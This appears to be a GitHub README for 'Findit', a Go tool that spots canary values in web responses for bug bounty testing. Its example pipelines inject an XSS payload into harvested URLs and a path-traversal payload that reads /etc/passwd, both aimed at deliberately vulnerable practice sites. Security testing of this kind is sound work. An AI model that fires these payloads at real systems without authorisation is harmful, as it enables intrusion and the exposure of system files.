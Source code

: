 # Findit

Findit is a tool used to parse a canary value from a web request.  
This is useful in bugbounties when you want to find a return value from a list of URL's.  
Think xss, ssti, sqli etc. 


## Install 

```
go install github.com/AssassinUKG/findit@latest
```

## Usage

```
cat URLsFile.txt | findit -c "alert(0)"
```

## Screenshot

![image](https://user-images.githubusercontent.com/5285547/178983196-1aa64236-4541-4d93-9b8f-2465394d88da.png)

---
## Example usages

XSS 

```
echo http://testphp.vulnweb.com/ | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|tff|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '"><img src=x onerror=alert(1);>' | findit -c "alert(0)"
```

/etc/passwd
> Example to find /etc/passwd, on one url 

```
echo "https://0aa9003403a40852c028b1270079009b.web-security-academy.net/image?filename=" | qsreplace "../../../../etc/passwd" | findit -c "root:x"
```


![image](https://user-images.githubusercontent.com/5285547/178974785-cbbab50c-bd6e-4a4e-ae7d-822ba3ca46f6.png)

